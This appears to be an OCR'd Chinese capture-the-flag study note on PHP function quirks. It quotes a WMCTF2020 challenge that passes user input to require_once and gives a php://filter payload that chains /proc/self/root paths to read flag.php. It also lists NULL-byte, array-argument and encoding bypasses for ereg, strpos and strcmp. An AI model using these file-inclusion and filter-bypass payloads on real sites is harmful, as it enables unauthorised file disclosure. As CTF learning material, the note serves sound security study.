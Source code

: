##### get_defined_vars()

获取所有文件（包括包含的文件）变量的值

##### file_get_contents()

懂得都懂

##### phpinfo()

懂得都懂

##### require_once

在php中，require_once在调用时php会检查该文件是否已经被包含过，如果是则不会再次包含，那么我们可以尝试绕过这个机制吗？不写入webshell只读文件有办法吗？

```php
<?php
error_reporting(E_ALL);
require_once('flag.php');
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    require_once($content);
} //题目的代码来自WMCTF2020 make php great again 2.0 绕过require_once是预期解
```

/proc/self指向当前进程的/proc/pid/，/proc/self/root/是指向/的符号链接，想到这里就可以用伪协议配合多级符号链接的办法进行绕过

```bash
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

[不懂先记着](https://www.anquanke.com/post/id/213235)

##### ereg() / eregi()

NULL截断漏洞：
ereg()函数存在NULL截断漏洞,可以%00截断，遇到%00则默认为字符串的结束，所以可以绕过一些正则表达式的检查。

ereg()只能处理字符串的，遇到数组做参数返回NULL。

##### strpos()

- 以数组为参数
strpos()函数如果传入数组，便会返回NULL。
- 二次编码绕关键字
[参考](https://bugs.php.net/bug.php?id=76671)
- 大小写绕过
strpos() 函数对大小写敏感

##### strcmp()

`strcmp()`函数比较两个字符串(区分大小写)，定义中是比较字符串类型的，但如果输入其他类型这个函数将发生错误，在官方文档的说明中说到在php 5.2版本之前，利用strcmp函数将数组与字符串进行比较会返回-1，但是从5.3开始，会返回0。
